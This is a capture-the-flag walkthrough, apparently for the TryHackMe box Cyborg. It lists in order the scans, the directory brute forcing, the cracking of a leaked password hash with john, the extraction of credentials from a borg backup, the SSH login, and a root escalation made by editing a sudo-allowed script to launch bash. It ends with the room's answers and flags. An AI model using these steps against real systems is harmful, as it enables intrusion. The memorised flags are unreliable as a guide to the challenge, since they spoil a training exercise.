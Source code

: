 
---
A box involving encrypted archives, source code analysis and more
---
## vpn

``` tryhackme-vpn
sudo openvpn WittyAle.ovpn
``` 

### ping

``` 
ping 10.10.181.155
```

### rustscan

```
rustscan -a 10.10.181.155 --ulimit 5000 -b 65535 -- -A 
```

### gobuster

```
gobuster dir --url http://10.10.181.155 -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x py,html,txt
```
==/admin , /etc==

 ~~10.10.181.155/etc/squid/passwd~~

`music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

### john

``` hash
john --wordlist=/usr/share/wordlists/rockyou.txt passwd 
```

```
 john passwd --show  
```

==cracked -> music_archive:squidward==
 
~~10.10.181.155/admin/admin.html~~
`download -> archive.tar`

### Borg Backup

```cyborg
tar -xf archive.tar
```

```
tree home
```

```
cd cyborg/home/field/dev
```

```
borg list final_archive 
```

==passphrase:  squidward==

```
borg list final_archive::music_archive
```

```
borg extract final_archive::music_archive
```

```
cat home/alex/Desktop/secret.txt
```
> shoutout to all the people who have gotten to this stage whoop whoop!"

```
cat home/alex/Documents/note.txt 
```
>Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

`alex:S3cretP@s3`

### ssh

```
ssh alex@10.10.181.155
```

### priv esc

```
sudo -l
```

==(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh==

```
chmod 777 /etc/mp3backups/backup.sh
```

```
nano /etc/mp3backups/backup.sh
```

`add #2 line -> sudo /bin/bash`

```root
sudo /etc/mp3backups/backup.sh 
```

- Scan the machine, how many ports are open? *2* 
- What service is running on port 22? *ssh*
- What service is running on port 80? *http*
- What is the user.txt flag? *flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}*
- What is the root.txt flag? *flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}*
